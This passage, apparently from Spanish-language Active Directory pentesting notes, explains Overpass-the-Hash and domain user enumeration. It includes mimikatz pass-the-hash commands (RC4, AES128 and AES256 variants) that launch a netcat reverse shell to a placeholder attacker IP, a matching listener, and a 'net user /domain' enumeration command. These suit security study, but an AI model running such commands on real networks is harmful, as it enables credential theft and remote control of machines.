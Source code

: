 ```shell-session
mimikatz # sekurlsa::pth /user:<user> /domain:<dominio> /rc4:<hash> /run:"c:\tools\nc64.exe -e cmd.exe <ATTACKER_IP> <puerto>"
```

**AES128 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:<user> /domain:<dominio> /aes128:<hash> /run:"c:\tools\nc64.exe -e cmd.exe <ATTACKER_IP> <puerto>"
```

**AES256 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:<user> /domain:<dominio> /aes256:<hash> /run:"c:\tools\nc64.exe -e cmd.exe <ATTACKER_IP> <puerto>"
```

Tenga en cuenta que, al utilizar RC4, la clave será igual al hash NTLM de un usuario. Esto significa que, si pudiéramos extraer el hash NTLM, podríamos utilizarlo para solicitar un TGT siempre que RC4 sea uno de los protocolos habilitados. Esta variante concreta se conoce normalmente como **Overpass-the-Hash (OPtH)**.

Para recibir la reverse shell, hay que abrir un reverse listener en la máquina atacante:

```shell-session
user@AttackBox$ nc -lvp <puerto>
```

Al igual que con PtH, cualquier comando ejecutado desde este shell utilizará las credenciales inyectadas a través de mimikatz.



# Interpretación de información

Cuando vemos algo como:

```
dominio.local\nombreUser
```

La parte de la izquierda es el dominio y lo de la derecha es el usuario.



# Enumeración

1. **Enumeración de usuarios**
	Ej: Bloodhound

Enumeración a través del símbolo del sistema (CMD):

Podemos usar el comando `net` para listar todos los usuarios del dominio AD mediante la subopción `user`:

```
cmd> net user /domain
```

